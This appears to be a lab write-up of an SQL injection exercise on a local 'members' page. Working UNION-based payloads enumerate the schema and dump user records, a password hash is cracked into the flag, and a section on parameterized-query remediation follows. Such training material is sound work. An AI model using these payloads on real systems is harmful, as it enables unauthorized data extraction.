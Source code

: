 ## Flag

- DB flag: `5ff9d0165b4f92b14994e5c685cdce28`
- DB Comment: Decrypt this password -> then lower all the char. Sh256 on it and it's good !

- `5ff9d0165b4f92b14994e5c685cdce28` -> `FortyTwo`

  - https://md5decrypt.net/

- `FortyTwo` -> `fortytwo`

- `fortytwo` -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
  - https://md5decrypt.net/Sha256/

## Remediation

The backend should sanitize and validate all user inputs to prevent SQL injection attacks. This can be done by using prepared statements/parameterized queries and some form of input validation.

Use parameterized queries, validate inputs, and avoid building SQL by string concatenation. The example below shows a safe pattern using a context manager, explicit validation, sqlite3.Row for readable results, and a parameterized query (the ? placeholder). This prevents SQL injection and handles invalid input cleanly.

```python
# Safe example using parameterized queries and input validation (SQLite)
import sqlite3

def get_member_by_id(db_path: str, raw_id) -> list:
  # Validate/normalize input (whitelist numeric ids here)
  try:
    user_id = int(raw_id)
  except (TypeError, ValueError):
    raise ValueError("Invalid user id")

  # Use a context manager so the connection is closed automatically
  with sqlite3.connect(db_path) as conn:
    conn.row_factory = sqlite3.Row  # optional: access columns by name
    # Parameterized query prevents SQL injection
    cur = conn.execute("SELECT * FROM members WHERE id = ?", (user_id,))
    return [dict(row) for row in cur.fetchall()]

# Example usage
if __name__ == "__main__":
  try:
    rows = get_member_by_id("example.db", "1")  # safe input
    for r in rows:
      print(r)
  except ValueError as e:
    print("Bad input:", e)
```

Notes:

- Always use parameterized queries (placeholders) instead of formatting SQL strings.
- Validate and/or whitelist inputs appropriate to your application (e.g., numeric IDs vs UUIDs).
- Apply least privilege to the database user and consider using an ORM or stored procedures for additional safety and maintainability.
- Log and handle exceptions without exposing sensitive details to users.

## SQL Injection

One of the most common web application vulnerabilities is SQL injection. SQL injection occurs when an attacker is able to insert malicious SQL code into a web application's database query. This can allow the attacker to access sensitive data, modify or delete data, or even take control of the entire database.

Here, the application is vulnerable to SQL injection on the `members` page.

### Exploitation

Database infos:

- MariaDB: `5.5.64-MariaDB-1ubuntu0.14.04.1`
- Databases:

| Database Name        |
| -------------------- |
| information_schema   |
| Member_Brute_Force   |
| Member_Sql_Injection |
| Member_guestbook     |
| Member_images        |
| Member_survey        |

- Tables in `Member_Sql_Injection`:

| Table Name |
| ---------- |
| users      |

- Columns in `users` table:

| Column Name |
| ----------- |
| user_id     |
| first_name  |
| last_name   |
| town        |
| country     |
| planet      |
| Commentaire |
| countersign |

- Users:

| user_id | first_name | last_name | town | country | planet | Commentaire                                                                   | countersign                      |
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | -------------------------------- |
| ...     | ...        | ...       | ...  | ...     | ...    | ...                                                                           | ...                              |
| 5       | Flag       | GetThe    | 42   | 42      | 42     | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

To exploit the SQL injection vulnerability, we can use the `UNION` operator to combine the results of two or more `SELECT` statements into a single result set, `--` is used to comment out the rest of the SQL query. This allows us to explore and retrieve data from the database.

To avoid `quote` errors we can use numeric values in the injection.

https://www.rapidtables.com/convert/number/ascii-to-hex.html

```c
0x7573657273
// Hex literal for 'users'
0x3c3e
// Hex literal for '<>'
0x2c
// Hex literal for ','
```

To get the database version:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20@@version,2%20--+&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT @@version,2 -- ;
--+ is used to comment out the rest of the SQL query
-- Output:
-- ID: 1 UNION SELECT @@version,2 --
-- First name: one
-- Surname : me
--
-- ID: 1 UNION SELECT @@version,2 --
-- First name: 5.5.64-MariaDB-1ubuntu0.14.04.1
-- Surname : 2
```

To get the current database name:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20database(),2%20--+&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT database(),2 -- ;
-- Output:
-- ...
-- First name: Member_Sql_Injection
```

To list all databases:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20GROUP_CONCAT(schema_name%20SEPARATOR%200x3c3e),%202%20FROM%20information_schema.schemata%20--&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c3e), 2 FROM information_schema.schemata -- ;
-- Output:
-- ...
-- First name: information_schema<>Member_Brute_Force<>Member_Sql_Injection<>Member_guestbook<>Member_images<>Member_survey
```

Current database tables:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20GROUP_CONCAT(table_name%20SEPARATOR%200x3c3e),%202%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%20database()%20--+&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c3e), 2 FROM information_schema.tables WHERE table_schema = database() -- ;
-- Output:
-- ...
-- First name: users
```

To list all columns in the `users` table:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20GROUP_CONCAT(column_name%20SEPARATOR%200x3c3e),%202%20FROM%20information_schema.columns%20WHERE%20table_schema%20=%20database()%20AND%20table_name%20=%200x7573657273%20--%20+&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT GROUP_CONCAT(column_name SEPARATOR 0x3c3e), 2 FROM information_schema.columns WHERE table_schema = database() AND table_name = 0x7573657273 --  +;
-- Output:
-- ...
-- First name: user_id<>first_name<>last_name<>town<>country<>planet<>Commentaire<>countersign
```

https://www.w3schools.com/sql/func_mysql_concat_ws.asp

Get user data:

```html
http://localhost:8080/?page=member&id=1%20UNION%20SELECT%20(SELECT%20CONCAT_WS(0x2c,%20user_id,%20first_name,%20last_name,%20town,%20country,%20planet,%20Commentaire,%20countersign)%20FROM%20users%20LIMIT%203,1),%202%20--%20+&Submit=Submit#
```

```sql
SELECT * FROM members WHERE id = 1 UNION SELECT (SELECT CONCAT_WS(0x2c, user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users LIMIT 3,1), 2 -- +;
-- LIMIT Offset: 3,Row_count: 1 to get the 4th user (0 indexed) - Returns only one row (to avoid subquery error)
-- Output:
-- ...
-- First name: 5,Flag,GetThe,42,42,42,Decrypt this password -> then lower all the char. Sh256 on it and it's good !,5ff9d0165b4f92b14994e5c685cdce28
```
